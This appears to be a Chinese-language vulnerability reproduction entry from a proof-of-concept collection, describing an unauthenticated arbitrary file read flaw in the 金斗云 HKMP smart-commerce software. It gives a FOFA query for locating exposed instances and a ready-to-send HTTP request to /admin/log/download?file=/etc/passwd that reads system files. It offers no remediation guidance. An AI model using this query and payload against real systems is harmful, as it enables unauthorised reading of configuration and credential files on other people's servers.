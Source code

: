 # 金斗云-HKMP智慧商业软件download任意文件读取漏洞

金斗云-HKMP智慧商业软件download任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```yaml
body="金斗云 Copyright"
```

## poc

```yaml
GET /admin/log/download?file=/etc/passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![「漏洞复现」金斗云 HKMP智慧商业软件 download 任意文件读取漏洞](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407122046040.png)